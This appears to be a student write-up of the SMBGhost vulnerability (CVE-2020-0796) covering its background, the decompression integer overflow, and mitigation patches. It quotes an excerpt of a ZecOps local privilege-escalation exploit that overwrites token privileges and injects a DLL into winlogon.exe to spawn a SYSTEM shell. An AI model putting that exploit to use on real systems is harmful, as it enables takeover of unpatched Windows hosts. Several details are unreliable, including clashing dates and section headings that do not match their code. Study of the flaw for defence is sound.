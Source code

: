 # CVE-2020-0796


## Background
On March 12,2020, Microsoft confirmed that a critical vulnerability affecting the SMBv3 (Server Message Block 3.1.1) protocol associated with its latest version of Windows 10 and it has a case number: CVE-2020-0796. This is known as SMBGhosting in Windows 10 OS. 
-	date discovered: 2019-4-11 by Zecops Research Team
-	date patched: 2020-10-3 by Microsoft 

CVSSv3: 
-	base score: 10.0
-	Impact score: 0
-	Exploitability Score: 3.9
-	Severity: CRITICAL

Affected version: 
-	Windows 10 version (1903 and 1909)
-	Windows Server Version (1903 and 1909)


## Introduction
### What is SMB and what it does?
[Official defination](https://en.wikipedia.org/wiki/Server_Message_Block) In computer networking, Server Message Block, one version of which was also known as Common Internet File System (CFIS), is a communication protocol for providing shared access to files, printers and serial ports between nodes on a network. It also provides an authenticated inter-process communication (IPC) mechanism

This Protocol enables your devices to communciate with remote computers or servers. It basically lets you share files.

### What is SMBGhost and what it does? 
 This is a type of vulnerability that affects Windows 10 computers and was first reported publicly on 10 March, 2020. 
 
 This vulnerability allows the attacker to remotely execute the code on the SMB server or client. 



### who uses it and why would you want to use it
Users could be anyone among us. Here is a scenario, Imaging you are with your laptops, and using a printer connected to the company’s computer. When you request to print a document, your laptop uses the SMB protocol to send the print request to the company’s computer; while through the same protocol, your laptop will receive a response on whether the file is printed. 


### Real world impact
SMB version
-	SMBv1: released by IBM, Modified by Microsoft, (1990)
-	SMBv2: By Microsoft, Boosted performance
-	SMBv3: Increased Security

![download](https://user-images.githubusercontent.com/25041906/111921659-15191b00-8a6c-11eb-9c72-2afd91c12c3f.jpg)

The infamous WannaCry ransomware was an exploit of a vulnerability in SMB version one.
It infected hundreds of thousands of computers and encrypted their data. Users have to pay in Bitcoin to get their data back. 






## Vulnerability POC
The vulnerability exits because SMB does not handle the compressed network packets properly. In particular, the Srv2DecompressData function is called to decompress the packet, but it does not validate the original compressed size (originalCompressedSegmentSize + Offset) of the packet header. Therefore, a small amount of the additional memory for offset address is copied in the kernel memory. No surprisingly, the bug can be used to cause overflow to gain higher local privileges.
The below POC created by zecops research team illustrates how the bug can be exploited remotely without authentication by causing a blue screen of death.This is a simplified version of the function below



### Create a simple packet header 
Creating a network packet is one of the main features of Scapy. Initially, I will create a simplest header of a packet, which only contains source ip address and destination ip address.                                           
 
    typedef struct _COMPRESSION_TRANSFORM_HEADER
{
    ULONG ProtocolId;
    ULONG OriginalCompressedSegmentSize;
    USHORT CompressionAlgorithm;
    USHORT Flags;
    ULONG Offset;
} COMPRESSION_TRANSFORM_HEADER, *PCOMPRESSION_TRANSFORM_HEADER;
 
typedef struct _ALLOCATION_HEADER
{
    // ...
    PVOID UserBuffer;
    // ...
} ALLOCATION_HEADER, *PALLOCATION_HEADER;
 
NTSTATUS Srv2DecompressData(PCOMPRESSION_TRANSFORM_HEADER Header, SIZE_T TotalSize)
{
    PALLOCATION_HEADER Alloc = SrvNetAllocateBuffer(
        (ULONG)(Header->OriginalCompressedSegmentSize + Header->Offset),
        NULL);
    If (!Alloc) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }
    ULONG FinalCompressedSize = 0;
 
    NTSTATUS Status = SmbCompressionDecompress(
        Header->CompressionAlgorithm,
        (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER) + Header->Offset,
        (ULONG)(TotalSize - sizeof(COMPRESSION_TRANSFORM_HEADER) - Header->Offset),
        (PUCHAR)Alloc->UserBuffer + Header->Offset,
        Header->OriginalCompressedSegmentSize,
        &FinalCompressedSize);
    if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
    }
 
    if (Header->Offset > 0) {
        memcpy(
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
    }
 
    Srv2ReplaceReceiveBuffer(some_session_handle, Alloc);
    return STATUS_SUCCESS;
}


By comparing line 20 (size + offet) and line 31 (size - offset), we can easily know that the buffer overflowed by executing this function. So If the offset is not zero, it triggers an additional integer overflow by three steps, allocate, decompress and copy. As a result, the memory allocation is shown in the picture below.

![Srv2DecompressData function](https://www.google.com/search?q=Srv2DecompressData&rlz=1C5CHFA_enCA919CA919&sxsrf=ALeKk03wKnRn0j00hxWl75aBvq5trvRMCQ:1616359135729&source=lnms&tbm=isch&sa=X&ved=2ahUKEwir7fSAn8LvAhWfGVkFHY8DBcMQ_AUoAnoECAEQBA&biw=1920&bih=976#imgrc=orKq2sACNF39NM&imgdii=lzwKxoCYwmreCM)


Whether or not the copy step is going to be executed, we already triggered the overflow since we changed the allocated size to be smaller than it actually needed. Thus, we are able to overflow any size of the content.
This could be a crucial vulnerability because we can use this to crash a specific windows system by an IP address.  The code below was created by ZECOPS research team, which customized a network packet header size and set up the offset in a token and exploit the vulnerability. The core part of the source code is shown as below.



### Send and receive packets (sr)
One of the most important segments in network is sending and receiving the packets. The sr() function is how we can implement them. The function will return both answered and unanswered packets. Below is a demonstration on how we use this function to send and receive a ICMP packets, as well as to decode the received the packets. 

>>> 
def exploit():
   """
   Exploits the bug to escalate privileges.
   Reminder:
   0: kd> dt nt!_SEP_TOKEN_PRIVILEGES
      +0x000 Present          : Uint8B
      +0x008 Enabled          : Uint8B
      +0x010 EnabledByDefault : Uint8B
   """
   token = get_token_address()
   if token is None: sys.exit(-1)

   what = b'\xFF' * 8 * 3
   where = token + 0x40

   print('[+] Writing full privileges on address %x' % (where))

   write_what_where('127.0.0.1', what, where)

   print('[+] All done! Spawning a privileged shell.')
   print('[+] Check your privileges: !token %x' % (token))

   dll_path = pathlib.Path(__file__).parent.absolute().joinpath('spawn_cmd.dll')
   subprocess.call(['Injector.exe', '--process-name', 'winlogon.exe', '--inject', dll_path], stdout=open(os.devnull, 'wb'))

And when the SMB decompressed the header, it will crash the windows system at the beginning by bule screen of death as below.
![blue screen of death](https://en.wikipedia.org/wiki/Blue_screen_of_death#/media/File:Bsodwindows10.png)

But if we keep trying the exploit several times, we can get the system/authority privilege.

![get the root privilege](start.png)
![get the root privilege](end.png)

The whole stack buffer overflow source code refer to zecops research team at https://github.com/ZecOps/CVE-2020-0796-LPE-POC


### Mitigating SMB Ghosting Attacks
There are several entities and organizations at risk of this attack:
Small and large government entities, Large and small business entities, and home users.

#### There are 3 main methods of preventing SMB Ghosting Attacks
Method 1: Involves using the Windows Update program to install the new security updates or cumulative updates released in March 2020.
Method 2: Visiting the official Microsoft website to download the SMB Ghosting security patch which would be the service stack update KB4541338, cumulative update KB4551762.
Method 3: This is a workaround provided by Microsoft which is not a Recommended solution as it does not Prevent the Exploitation, It Just Disables the SMBv3 Compression.
Execute this command in PowerShell:
Command - Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force


### Conclusion 


### Resources
[ Security vuknerability ](https://en.wikipedia.org/wiki/SMBGhost_(security_vulnerability))
[ SMB protocol ](https://www.youtube.com/watch?v=csocwMe7l_E)
